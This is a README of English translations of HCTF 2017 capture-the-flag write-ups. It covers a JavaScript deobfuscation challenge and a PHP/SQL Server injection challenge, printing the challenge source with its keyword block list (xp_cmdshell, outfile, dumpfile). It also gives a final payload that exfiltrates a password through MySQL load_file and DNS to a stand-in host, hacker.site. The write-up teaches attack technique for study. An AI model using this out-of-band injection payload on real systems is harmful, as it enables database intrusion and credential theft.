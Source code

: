 # HCTF2017-writeups-eng
Translations of HCTF writeups to english.

## WEB:

### babycrack

Translated from: https://github.com/LoRexxar/HCTF2017-babycrack

"The challenge I think is quite clear, you could even say that this kind of js
is basically the most common.

Obfuscation and Anti-Debugging

Here's a simple strategy for solving:

Patch to remove the anti-debugging code or debug using node -> beautify code ->
remove obfuscation -> analyze the logic of the code. The first part was flawed
(leading to multiple solutions) which was dealt with thru the hint, and when the
rest of the parts are complete you can use the sha256 hash to brute force. The
second part has three subsections, each with its own restrictions. The third
part and the fourth parts are very simple. I set the fifth part to have more
complicated logic, with the length and `ee` in the center, this part has only
one solution!

### boring-website

Translated from: https://github.com/hammerorz/HCTF2017-easy-sign-and-boring-website

First we look at the site's index and see `www.zip`, when we download and open
it we see the source code:

```php
<?php
echo "Bob received a mission to write a login system on someone else's serve
r, and he he only finished half of the work<br />";
echo "flag is hctf{what you get}<br /><br />";
error_reporting(E_ALL^E_NOTICE^E_WARNING);
try {
$conn = new PDO( "sqlsrv:Server=*****;Database=not_here","oob", "");
}
catch( PDOException $e ) {
die( "Error connecting to SQL Server".$e->getMessage() );
}
#echo "Connected to MySQL<br />";
echo "Connected to SQL Server<br />";
$id = $_GET['id'];
if(preg_match('/EXEC|xp_cmdshell|sp_configure|xp_reg(.*)|CREATE|DROP|declare
|if|insert|into|outfile|dumpfile|sleep|wait|benchmark/i', $id)) {
die('NoNoNo');
}
$query = "select message from not_here_too where id = $id"; //link server: O
n linkname:mysql
$stmt = $conn->query( $query );
if ( @$row = $stmt->fetch( PDO::FETCH_ASSOC ) ){
//TO DO: ...
//It's time to sleep...
}
?>
```

We find that SQL Server is using `linkserver` to connect to MySQL. Looking at
how `linkserver` is used, combining comments we can use `select * from
openquery(mysql,'select xxx')` to get data from the MySQL database, but without
getting a response. The `sleep` function is also banned, and then you'll see the
oob warning, after looking up mysql out-of-band, I discovered that the
`load_file` function can use dns to exfiltrate data. What follows is a pretty
simple MySQL injection procedure. The final payload: `/?id=1 union select * from
openquery(mysql,'select load_file(concat("\\\\",(select password from
secret),".hacker.site\\a.txt"))')`.

You could put up a dnslog server or also use ceye.

https://osandamalith.com/2017/02/03/mysql-out-of-band-hacking/
